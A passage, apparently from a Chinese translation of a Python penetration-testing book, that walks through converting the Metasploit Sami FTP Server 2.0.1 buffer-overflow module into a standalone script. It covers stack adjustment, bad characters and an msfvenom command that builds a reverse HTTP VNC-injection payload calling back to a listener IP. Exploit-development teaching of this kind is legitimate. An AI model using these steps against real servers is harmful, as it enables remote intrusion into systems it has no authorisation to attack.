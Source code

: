 回想一下[第 5 章](05.html#aid-1DOR01 "Chapter 5. Exploiting Services with Python")，*使用 Python*开发服务，以及我们是如何研究内核是否易受攻击的。考虑如何进行类似的研究可能导致对潜在缓冲区溢出漏洞的引用。您可以从头开始，也可以将 Metasploit 模块反向转换为独立的 Python 脚本，并轻松测试扩展的功能。然后，您可以将更改合并到 Metasploit 模块中，甚至创建自己的模块。

我们将反转 Sami FTP 服务器 2.0.1 的 Metasploit 模块，这在概念上与实际相反。为简洁起见，我们不打算展示该漏洞的全部代码，但您可以在`/usr/share/metasploit-framework/modules/exploits/windows/ftp`的 Metasploit 安装中检查它。有关此模块的更多详细信息，请参见[http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list](http://www.rapid7.com/db/modules/exploit/windows/ftp/sami_ftpd_list) 。

反转 Metasploit 模块时要做的第一件事是设置实际的漏洞利用。这将揭示利用实际服务需要设置的必要参数。如您所见，我们需要用户名、密码和相关负载。

![Reversing Metasploit modules](../Images/image00408.jpeg)

接下来，我们看一下实际有效载荷；我发现将其复制到记事本++之类的代码编辑器中更容易。这允许您查看通常需要的括号和轮廓。与以前编写漏洞利用的示例不同，我们将从实际的外壳代码开始，因为这将花费最多的精力。那么，看看实际 Metasploit 模块的有效负载部分。

![Reversing Metasploit modules](../Images/image00409.jpeg)

如您所见，堆栈调整为 3500，以更准确地适应外壳代码的放置。您可以使用上面突出显示的相同方法再次计算该值。在较新的 Metasploit 模块中，您将看到带正负值的`StackAdjustment`而不是`PrependEncoder`。因此，作为模块开发人员，您不必实际计算十六进制代码。

`-3500`的堆栈调整意味着我们将此值添加到 ESP。为此，我们需要计算`-3500`的 ESP 调整，但对于该计算，我们需要将-`3500`更改为十六进制值。十六进制等价物为`-0xDAC`。

![Reversing Metasploit modules](../Images/image00410.jpeg)

现在，我们将调整数据打印到一个十六进制文件中。

![Reversing Metasploit modules](../Images/image00411.jpeg)

正如您在模块的有效负载部分所看到的，存在已知的错误字符。当我们生成初始有效载荷时，我们将把它们合并到有效载荷生成中。现在，我们用这些特性生成有效负载。

```
msfvenom -p windows/vncinject/reverse_http lhost=192.168.195.172 lport=443 -b '\x00\x0a\x0d\x20\x5c' -f raw -o payload

```

![Reversing Metasploit modules](../Images/image00412.jpeg)

我们验证有效负载是通过`hexdump`命令生成的。

```
hexdump -C payload

```

下图显示了该有效载荷的输出：

![Reversing Metasploit modules](../Images/image00413.jpeg)

要结合堆栈调整代码和实际有效负载，我们可以执行下图中突出显示的方法，该方法显示了此命令的简单性：

![Reversing Metasploit modules](../Images/image00414.jpeg)

执行此操作后，我们验证两个组件的组合，如您所见，调整十六进制代码放置在外壳代码的前面。

![Reversing Metasploit modules](../Images/image00415.jpeg)
